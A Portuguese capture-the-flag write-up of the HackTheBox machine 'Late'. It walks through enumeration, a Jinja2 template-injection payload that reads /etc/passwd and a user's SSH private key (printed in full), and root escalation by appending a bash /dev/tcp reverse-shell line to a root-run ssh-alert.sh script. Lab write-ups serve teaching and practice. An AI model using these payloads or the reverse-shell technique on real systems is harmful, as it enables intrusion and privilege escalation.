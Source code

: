 # Late

## Enumeração

Primeiramente, enumerando as portas e serviços assecíveis usando o **nmap**:

![Untitled](images/Untitled.png)

Observamos que existe uma aplicação web rodando na porta 80 (**http** padrão). Ao acessarmos o site, existe uma página “Home” e uma página “Contact”, essa segunda possui um formulário que não envia nenhuma request ao servidor realmente, portanto é apenas um enfeite.

![Untitled](images/Untitled%201.png)

![Untitled](images/Untitled%202.png)

Conseguimos extrair a informação do domínio pelo email no rodapé “support@late.htb”; e na *Home*, encontramos um link para images.late.htb, que é um subdomínio. Após acrescentá-los no arquivo **/etc/hosts**:

![Untitled](images/Untitled%203.png)

### Enumerando diretórios e subdomínios

Utilizando o gobuster e as [SecLists](https://github.com/danielmiessler/SecLists):

```
gobuster dir -w ~/SecLists/Discovery/Web-Content/raft-small-directories.txt -u 10.10.11.156
gobuster dns -w ~/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -d late.htb
```

Não descobrimos nada na enumeração de diretórios, e a enumeração de subdomínios confirmou apenas o images.late.htb que já conhecíamos:

![Untitled](images/Untitled%204.png)

### Olhando images.late.htb

Encontramos um serviço que detecta textos em uma imagem e transforma em texto plano. A funcionalidade dessa aplicação é bem ruim, a chance dela não entender o texto na imagem é muito grande, mesmo estando bem claro.

![Untitled](images/Untitled%205.png)

## Exploração

Vamos usar o ImageMagick para fazer alguns testes:

```
convert -gravity center -background black -fill white -size 2000x300 caption:'test' test.png
```

Com esse comando, criamos uma imagem escrito “test” dentro dela:

![Untitled](images/Untitled%206.png)

Ao enviarmos pelo site, o resultado é um arquivo **.txt** com o seguinte conteúdo:

```
<p>test
</p>
```

Essa tag **HTML** <p> é um pouco suspeita, testando se existe Server-side Template Injection com a seguinte imagem:

![testssti.png](images/testssti.png)

Observamos o seguinte comportamento:

![Untitled](images/Untitled%207.png)

Testando com uma sintaxe específica:

![testssti2.png](images/testssti2.png)

```
<p>12
</p>
```

Confirmamos assim que realmente existe um SSTI. Como estamos numa aplicação feita em **Flask**, é muito provável que a template engine seja o **Jinja2**, que é a padrão.

Testando mais um payload:

![Untitled](images/Untitled%208.png)

```
<p>444
</p>
```

Esse é realmente um comportamento esperado para o **Jinja2**!

![Fonte: [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)](https://portswigger.net/cms/images/migration/blog/screen-shot-2015-07-20-at-09-21-56.png)

Fonte: [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)

Utilizando essa vulnerabilidade para ler arquivos da máquina:

```
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read() }}
```

![passwd2.png](images/passwd2.png)

```
<p>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
svc_acc:x:1000:1000:Service Account:/home/svc_acc:/bin/bash
rtkit:x:111:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
avahi:x:113:116:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
cups-pk-helper:x:114:117:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
saned:x:115:119::/var/lib/saned:/usr/sbin/nologin
colord:x:116:120:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
pulse:x:117:121:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
geoclue:x:118:123::/var/lib/geoclue:/usr/sbin/nologin
smmta:x:119:124:Mail Transfer Agent,,,:/var/lib/sendmail:/usr/sbin/nologin
smmsp:x:120:125:Mail Submission Program,,,:/var/lib/sendmail:/usr/sbin/nologin

</p>
```

Observe o usuário no qual destaquei a linha, provavelmente é ele que está rodando a aplicação. Vemos que ele esqueceu a chave privada para acessar o **ssh** na pasta **.ssh**:

![ssh.png](images/ssh.png)

```
<p>-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAqe5XWFKVqleCyfzPo4HsfRR8uF/P/3Tn+fiAUHhnGvBBAyrM
HiP3S/DnqdIH2uqTXdPk4eGdXynzMnFRzbYb+cBa+R8T/nTa3PSuR9tkiqhXTaEO
bgjRSynr2NuDWPQhX8OmhAKdJhZfErZUcbxiuncrKnoClZLQ6ZZDaNTtTUwpUaMi
/mtaHzLID1KTl+dUFsLQYmdRUA639xkz1YvDF5ObIDoeHgOU7rZV4TqA6s6gI7W7
d137M3Oi2WTWRBzcWTAMwfSJ2cEttvS/AnE/B2Eelj1shYUZuPyIoLhSMicGnhB7
7IKpZeQ+MgksRcHJ5fJ2hvTu/T3yL9tggf9DsQIDAQABAoIBAHCBinbBhrGW6tLM
fLSmimptq/1uAgoB3qxTaLDeZnUhaAmuxiGWcl5nCxoWInlAIX1XkwwyEb01yvw0
ppJp5a+/OPwDJXus5lKv9MtCaBidR9/vp9wWHmuDP9D91MKKL6Z1pMN175GN8jgz
W0lKDpuh1oRy708UOxjMEalQgCRSGkJYDpM4pJkk/c7aHYw6GQKhoN1en/7I50IZ
uFB4CzS1bgAglNb7Y1bCJ913F5oWs0dvN5ezQ28gy92pGfNIJrk3cxO33SD9CCwC
T9KJxoUhuoCuMs00PxtJMymaHvOkDYSXOyHHHPSlIJl2ZezXZMFswHhnWGuNe9IH
Ql49ezkCgYEA0OTVbOT/EivAuu+QPaLvC0N8GEtn7uOPu9j1HjAvuOhom6K4troi
WEBJ3pvIsrUlLd9J3cY7ciRxnbanN/Qt9rHDu9Mc+W5DQAQGPWFxk4bM7Zxnb7Ng
Hr4+hcK+SYNn5fCX5qjmzE6c/5+sbQ20jhl20kxVT26MvoAB9+I1ku8CgYEA0EA7
t4UB/PaoU0+kz1dNDEyNamSe5mXh/Hc/mX9cj5cQFABN9lBTcmfZ5R6I0ifXpZuq
0xEKNYA3HS5qvOI3dHj6O4JZBDUzCgZFmlI5fslxLtl57WnlwSCGHLdP/knKxHIE
uJBIk0KSZBeT8F7IfUukZjCYO0y4HtDP3DUqE18CgYBgI5EeRt4lrMFMx4io9V3y
3yIzxDCXP2AdYiKdvCuafEv4pRFB97RqzVux+hyKMthjnkpOqTcetysbHL8k/1pQ
GUwuG2FQYrDMu41rnnc5IGccTElGnVV1kLURtqkBCFs+9lXSsJVYHi4fb4tZvV8F
ry6CZuM0ZXqdCijdvtxNPQKBgQC7F1oPEAGvP/INltncJPRlfkj2MpvHJfUXGhMb
Vh7UKcUaEwP3rEar270YaIxHMeA9OlMH+KERW7UoFFF0jE+B5kX5PKu4agsGkIfr
kr9wto1mp58wuhjdntid59qH+8edIUo4ffeVxRM7tSsFokHAvzpdTH8Xl1864CI+
Fc1NRQKBgQDNiTT446GIijU7XiJEwhOec2m4ykdnrSVb45Y6HKD9VS6vGeOF1oAL
K6+2ZlpmytN3RiR9UDJ4kjMjhJAiC7RBetZOor6CBKg20XA1oXS7o1eOdyc/jSk0
kxruFUgLHh7nEx/5/0r8gmcoCvFn98wvUPSNrgDJ25mnwYI0zzDrEw==
-----END RSA PRIVATE KEY-----

</p>
```

## Pós-exploração

Basta então salvarmos essa chave e acessarmos o usuário via **ssh**.

```
ssh -i sshkey svc_acc@10.10.11.156
```

Achamos a flag de usuário:

```
cat user.txt
```

### Escalação de privilégios

Subindo o **linpeas** e o **pspy**:

![Untitled](images/Untitled%209.png)

Dando permissão de execução:

```
chmod +x linpeas.sh pspy
```

Ao rodar o **linpeas**, descobrimos o seguinte arquivo:

![Untitled](images/Untitled%2010.png)

Vemos que somos o dono desse arquivo e que temos permissão de **append** (flag **a** no último comando).

Esse script **ssh-alert.sh** aparenta enviar um email para o root toda vez que alguém realiza login via **ssh**. Vamos testar essa funcionalidade e observar com o **pspy**:

![Untitled](images/Untitled%2011.png)

Note que o script (**ssh-alert.sh**) é executado pelo root (UID=0) quando um usuário loga. Sabendo disso, vamos editar então esse script para quando o root executar, obtermos uma reverse shell dele.

```
echo 'bash -i >& /dev/tcp/SEU-IP/PORTA 0>&1' >> /usr/local/sbin/ssh-alert.sh
```

No seu terminal:

```
nc -lnvp PORTA
```

Ao logarmos novamente com svc_acc, obtemos então acesso ao root.

```
cat /root/root.txt
```